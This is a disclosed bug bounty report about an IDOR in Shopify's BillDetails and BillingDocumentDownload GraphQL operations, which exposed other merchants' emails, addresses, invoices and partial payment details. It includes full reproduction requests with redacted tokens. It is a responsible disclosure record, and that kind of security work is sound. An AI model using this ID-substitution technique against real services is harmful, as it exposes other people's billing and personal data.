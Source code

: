 # IDOR on GraphQL queries BillingDocumentDownload and BillDetails

## Report Details
- **Report ID**: 2207248
- **URL**: https://hackerone.com/reports/2207248
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-10-12T23:14:29.838Z
- **Disclosed**: 2024-02-08T15:01:53.719Z

## Reporter
- **Username**: blaklis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
An IDOR on the `BillingInvoice` id on both `BillingDocumentDownload` and `BillDetails` graphql operations are leaking other merchants' ██████: 

- email
- full address
- content of their invoice
- last 4 digits of credit card + type of credit card OR paypal email
- shop impacted

## Shops Used to Test:
Tested ID ██████ before I saw it was indeed embedding others' customers data.

## Relevant Request IDs:
f858a40e-ad0d-407a-a589-3ffb40cc5ae5

## Steps To Reproduce:

1. Whatever the user you're loggedin with, run the following request : 

```
POST /api/shopify/███?operation=BillDetails&type=query HTTP/2
Host: admin.shopify.com
Cookie: ██████████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Shopify-Web-Force-Proxy: 1
X-Csrf-Token: ████████
Caller-Pathname: /store/████████/access_account/invoice/███
Content-Length: 6674
Origin: https://admin.shopify.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: cyan
Te: trailers

{"operationName":"BillDetails","variables":{"id":"████","hasBillingSubscriptionsPermission":false},"query":"query BillDetails($id: ID!, $hasBillingSubscriptionsPermission: Boolean!) {\n  shop {\n    id\n    myshopifyDomain\n    countryCode\n    createdAt\n    name\n    plan {\n      name\n      __typename\n    }\n    easeMerchantFailedBillManualPaymentAttempts: experimentAssignment(\n      name: \"ease_merchant_failed_bill_manual_payment_attempts\"\n    )\n    __typename\n  }\n  billingAccount {\n    id\n    subscription @include(if: $hasBillingSubscriptionsPermission) {\n      id\n      billingPeriod\n      __typename\n    }\n    activePaymentMethod {\n      __typename\n      ... on BillingBankAccount {\n        id\n        bankName\n        lastDigits\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingCreditCard {\n        id\n        brand\n        lastDigits\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingReseller {\n        id\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingPaypalAccount {\n        id\n        email\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingBalance {\n        id\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingShopifyBalanceCard {\n        id\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingManualPayment {\n        id\n        compatibleCurrencies\n        __typename\n      }\n      ... on BillingUpiAccount {\n        id\n        upiId\n        compatibleCurrencies\n        __typename\n      }\n    }\n    ...BillingPaymentMethods\n    validPaymentMethods\n    currency\n    __typename\n  }\n  node(id: $id) {\n    id\n    ... on BillingInvoice {\n      id\n      credits {\n        name\n        category\n        invoiceAmount {\n          amount\n          currencyCode\n          __typename\n        }\n        __typename\n      }\n      chargeCategories {\n        shopId\n        shopName\n        shopDomain\n        category\n        name\n        description\n        count\n        subtotalAmount {\n          amount\n          currencyCode\n          __typename\n        }\n        charges {\n          __typename\n          discountValue {\n            __typename\n            ... on AppSubscriptionDiscountPercentage {\n              percentage\n              __typename\n            }\n            ... on AppSubscriptionDiscountAmount {\n              amount {\n                amount\n                currencyCode\n                __typename\n              }\n              __typename\n            }\n          }\n          amount {\n            amount\n            currencyCode\n            __typename\n          }\n          originalAmount {\n            amount\n            currencyCode\n            __typename\n          }\n          exchangeRate\n          exchangeRateAt\n          issuedAt\n          description\n          title\n          apiClientId\n          feeType\n          hasTraceabilityBetaFlag\n          chargesUrl: url\n        }\n        __typename\n      }\n      createdAt\n      billOn\n      dueOn\n      netTerm\n      status\n      name\n      originClassification\n      prefixBillName\n      purchaseType\n      authenticationStatus\n      strongCustomerAuthenticationPayload {\n        clientToken\n        paymentMethodNonce\n        redirectUrl\n        type\n        __typename\n      }\n      lastFailureReason\n      lastFailureMessage\n      totalAmount {\n        amount\n        currencyCode\n        __typename\n      }\n      totalCreditAmount {\n        amount\n        currencyCode\n        __typename\n      }\n      subtotalAmount {\n        amount\n        currencyCode\n        __typename\n      }\n      refundedAmount {\n        amount\n        currencyCode\n        __typename\n      }\n      timeline {\n        status\n        date\n        amount {\n          amount\n          currencyCode\n          __typename\n        }\n        __typename\n      }\n      paymentMethod {\n        __typename\n        ... on BillingBankAccount {\n          id\n          bankName\n          lastDigits\n          synchronous\n          __typename\n        }\n        ... on BillingCreditCard {\n          id\n          brand\n          lastDigits\n          synchronous\n          __typename\n        }\n        ... on BillingReseller {\n          id\n          synchronous\n          __typename\n        }\n        ... on BillingPaypalAccount {\n          id\n          email\n          synchronous\n          __typename\n        }\n        ... on BillingBalance {\n          id\n          synchronous\n          __typename\n        }\n        ... on BillingManualPayment {\n          id\n          synchronous\n          __typename\n        }\n        ... on BillingUpiAccount {\n          id\n          upiId\n          synchronous\n          __typename\n        }\n        ... on BillingShopifyBalanceCard {\n          id\n          synchronous\n          __typename\n        }\n      }\n      __typename\n    }\n    __typename\n  }\n}\n\nfragment BillingPaymentMethods on BillingAccount {\n  id\n  paymentMethods {\n    __typename\n    ... on BillingBankAccount {\n      id\n      priority\n      bankName\n      lastDigits\n      verificationStatus\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingCreditCard {\n      id\n      priority\n      brand\n      lastDigits\n      expired\n      expiryMonth\n      expiryYear\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingShopifyBalanceCard {\n      id\n      priority\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingReseller {\n      id\n      priority\n      uid\n      handle\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingPaypalAccount {\n      id\n      priority\n      email\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingBalance {\n      id\n      priority\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingShopifyBalanceAccount {\n      id\n      priority\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingUpiAccount {\n      id\n      priority\n      upiId\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n    ... on BillingManualPayment {\n      id\n      priority\n      synchronous\n      compatibleCurrencies\n      __typename\n    }\n  }\n  __typename\n}\n"}
```

That will give you some infos about the invoice.

You can also download the PDF of the invoice, with different infos embedded in it : 

```
POST /api/shopify/██████?operation=BillingDocumentDownload&type=mutation HTTP/2
Host: admin.shopify.com
Cookie: ██████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Shopify-Web-Force-Proxy: 1
X-Csrf-Token: ████
Caller-Pathname: /store/█████████/access_account/invoice/██████
Content-Length: 433
Origin: https://admin.shopify.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: cyan
Te: trailers

{"operationName":"BillingDocumentDownload","variables":{"id":"████","documentType":"CREDIT_NOTE"},"query":"mutation BillingDocumentDownload($id: ID!, $documentType: BillingDocumentType) {\n  billingDocumentDownload(id: $id, documentType: $documentType) {\n    job {\n      id\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

Replace in the request the cookies, the shop name and the CSRF token, then access https://admin.shopify.com/store/*yourshop*/invoices/*theid*/download.html?document_type=INVOICE

Funnily enough, the PDF invoice display my own firstname / lastname, but will display the other merchants' email and full address.

## Impact

## Summary:

An attacker is able to dump ███ merchants through their invoices.

## Attachments
No attachments

